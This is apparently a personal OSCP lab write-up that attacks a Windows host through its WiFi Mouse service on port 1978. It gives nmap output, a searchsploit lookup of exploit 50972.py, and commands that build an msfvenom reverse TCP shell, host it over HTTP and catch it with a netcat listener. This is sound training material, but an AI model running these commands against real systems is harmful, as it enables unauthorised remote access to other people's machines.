



# Nmap

```bash
nmap -A -T4 -p 21,80,135,139,445,1978,3389,7680 192.168.165.145                                                                                                                                                                                                                                                         
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 17:16 +0000                                                                                                                                                                                                                                                           
Stats: 0:02:05 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan                                                                                                                                                                                                                                                 
Service scan Timing: About 87.50% done; ETC: 17:18 (0:00:18 remaining)                                                                                                                                                                                                                                                      
Nmap scan report for 192.168.165.145                                                                                                                                                                                                                                                                                        
Host is up (0.099s latency).                                                                                                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                            
PORT     STATE SERVICE       VERSION                                                                                                                                                                                                                                                                                        
21/tcp   open  ftp           Microsoft ftpd                                                                                                                                                                                                                                                                                 
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                                                                                                                                                      
|_Can't get directory listing: TIMEOUT                                                                                                                                                                                                                                                                                      
| ftp-syst:                                                                                                                                                                                                                                                                                                                 
|_  SYST: Windows_NT                                                                                                                                                                                                                                                                                                        
80/tcp   open  http          Microsoft IIS httpd 10.0                                                                                                                                                                                                                                                                       
|_http-server-header: Microsoft-IIS/10.0                                                                                                                                                                                                                                                                                    
|_http-title: Samuel's Personal Site                                                                                                                                                                                                                                                                                        
| http-methods:                                                                                                                                                                                                                                                                                                             
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1978/tcp open  unisql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie,
 WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    system windows 6.2
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: OSCP
|   NetBIOS_Domain_Name: OSCP
|   NetBIOS_Computer_Name: OSCP
|   DNS_Domain_Name: oscp
|   DNS_Computer_Name: oscp
|   Product_Version: 10.0.19041
|_  System_Time: 2026-03-30T17:19:16+00:00
| ssl-cert: Subject: commonName=oscp
| Not valid before: 2026-01-29T23:12:24
|_Not valid after:  2026-07-31T23:12:24
|_ssl-date: 2026-03-30T17:19:56+00:00; -2s from scanner time.
7680/tcp open  pando-pub?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1978-TCP:V=7.98%I=7%D=3/30%Time=69CAAFF6%P=x86_64-pc-linux-gnu%r(NU
SF:LL,14,"system\x20windows\x206\.2\n\n")%r(GenericLines,14,"system\x20win
SF:dows\x206\.2\n\n")%r(GetRequest,14,"system\x20windows\x206\.2\n\n")%r(H
SF:TTPOptions,14,"system\x20windows\x206\.2\n\n")%r(RTSPRequest,14,"system
SF:\x20windows\x206\.2\n\n")%r(RPCCheck,14,"system\x20windows\x206\.2\n\n"
SF:)%r(DNSVersionBindReqTCP,14,"system\x20windows\x206\.2\n\n")%r(DNSStatu
SF:sRequestTCP,14,"system\x20windows\x206\.2\n\n")%r(Help,14,"system\x20wi
SF:ndows\x206\.2\n\n")%r(SSLSessionReq,14,"system\x20windows\x206\.2\n\n")
SF:%r(TerminalServerCookie,14,"system\x20windows\x206\.2\n\n")%r(TLSSessio
SF:nReq,14,"system\x20windows\x206\.2\n\n")%r(Kerberos,14,"system\x20windo
SF:ws\x206\.2\n\n")%r(SMBProgNeg,14,"system\x20windows\x206\.2\n\n")%r(X11
SF:Probe,14,"system\x20windows\x206\.2\n\n")%r(FourOhFourRequest,14,"syste
SF:m\x20windows\x206\.2\n\n")%r(LPDString,14,"system\x20windows\x206\.2\n\
SF:n")%r(LDAPSearchReq,14,"system\x20windows\x206\.2\n\n")%r(LDAPBindReq,1
SF:4,"system\x20windows\x206\.2\n\n")%r(SIPOptions,14,"system\x20windows\x
SF:206\.2\n\n")%r(LANDesk-RC,14,"system\x20windows\x206\.2\n\n")%r(Termina
SF:lServer,14,"system\x20windows\x206\.2\n\n")%r(NCP,14,"system\x20windows
SF:\x206\.2\n\n")%r(NotesRPC,14,"system\x20windows\x206\.2\n\n")%r(JavaRMI
SF:,14,"system\x20windows\x206\.2\n\n")%r(WMSRequest,14,"system\x20windows
SF:\x206\.2\n\n")%r(oracle-tns,14,"system\x20windows\x206\.2\n\n")%r(ms-sq
SF:l-s,14,"system\x20windows\x206\.2\n\n")%r(afp,14,"system\x20windows\x20
SF:6\.2\n\n")%r(giop,14,"system\x20windows\x206\.2\n\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (92%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (92%), Microsoft Windows 10 1909 - 2004 (85%), Windows Server 2019 (85%)

```

## Port Research
```bash
nc 192.168.165.145 1978

#Results
system windows 6.2

# Google those results + port number
```


## Locate and run Exploit

```bash
searchsploit wifi mouse

# Tried multiple versions.
# This one worked
50972.py

searchsploit -m 50972.py
```

```bash

# Run it
python3 50972.py 192.168.165.145                         
USAGE: python 50972.py <target-ip> <local-http-server-ip> <payload-name>

# Create Payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.244 LPORT=4444 -f exe -o ~/oscp/OSCP_A/145/shell.exe

# Host the payload
python3 -m http.server 80

# Start listener for reverse shell
nc -nvlp 4444

# Run exploit
python3 50972.py 192.168.165.145 192.168.45.244 shell.exe

# Grab offsec flag
```
